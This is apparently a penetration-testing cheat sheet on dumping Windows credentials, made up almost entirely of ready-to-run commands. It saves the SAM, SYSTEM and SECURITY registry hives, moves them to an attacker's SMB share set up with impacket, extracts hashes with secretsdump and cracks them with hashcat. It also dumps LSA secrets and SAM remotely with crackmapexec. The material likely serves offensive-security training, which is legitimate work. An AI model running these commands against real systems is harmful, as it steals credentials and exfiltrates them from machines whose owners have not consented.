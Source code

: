 - Using Reg.exe to Copy Regsitry Hive
```command-prompt
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```
- Craetea a Share wiht smbserver.py
```bash
	sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents
```
- Move Hive Copies to Share
```command-prompt
move sam.save \\PAWNBOWX\CompData
move security.save \\PAWNBOWX\CompData
move system.save \\PAWNBOWX\CompData
```

- Dumping hashes using impacet's secretsdump.py
```bash
# locate secretsdump.py
locate secretsdump.py

# Running secretsdump.py
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
- Cracking passwords with Hashcat
```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

## Remote Dumping & LSA Secrets Considerations
- Dumping LSA Secrets Remotely
```bash
crackmapexec smb $IP --local-auth -u bob -p $PASSWORD --lsa
```
- Dumping SAM remotely
```bash
crackmapexec smb $IP --local-auth -u bob -p $PASSWORD --sam
```

